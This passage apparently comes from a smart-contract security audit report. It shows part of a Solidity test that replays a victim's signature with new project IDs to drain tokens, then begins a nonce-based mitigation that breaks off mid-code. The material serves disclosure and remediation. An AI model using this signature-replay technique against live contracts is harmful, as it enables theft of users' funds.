 ```solidity

            // Try a third time with another projectId
            bytes32 thirdProjectId = bytes32(uint256(3));
            vm.prank(attacker);
            blueprint.createAgentWithTokenWithSig(
                thirdProjectId,
                base64Proposal,
                address(0),
                serverURL,
                address(mockToken),
                signature
            );

            uint256 finalBalance = mockToken.balanceOf(victim);
            assertEq(
                finalBalance,
                700 * 10 ** 18,
                "Final balance should be 700 tokens"
            );

            // Verify victim has lost 300 tokens through replay attacks
            assertEq(
                initialBalance - finalBalance,
                300 * 10 ** 18,
                "Victim should have lost 300 tokens due to signature replay"
            );
        } catch {
            // If we reach here, the contract correctly rejected the signature with a different projectId
            assertEq(
                initialBalance - balanceAfter1,
                100 * 10 ** 18,
                "Victim should have only lost 100 tokens (legitimate use)"
            );

            // Test passes if the contract correctly rejects the replayed signature
            assertTrue(true, "Contract correctly rejected signature replay");
        }
    }
}
```

### Mitigation

Implement a nonce-based signature verification system:
1. Add a mapping to track nonces per user address:
```solidity
mapping(address => uint256) private nonces;
```

2. Include the nonce in the signed message:
```solidity
function getRequestDeploymentDigest(
    bytes32 projectId, 
    string memory base64RecParam, 
    string memory serverURL,
    uint256 nonce
) public view returns (bytes32) {
    bytes32 structHash = keccak256(
        abi.encode(
            keccak256("DeploymentRequest(bytes32 projectId,string base64RecParam,string serverURL,uint256 nonce)"),
            projectId, 
            keccak256(bytes(base64RecParam)), 
```
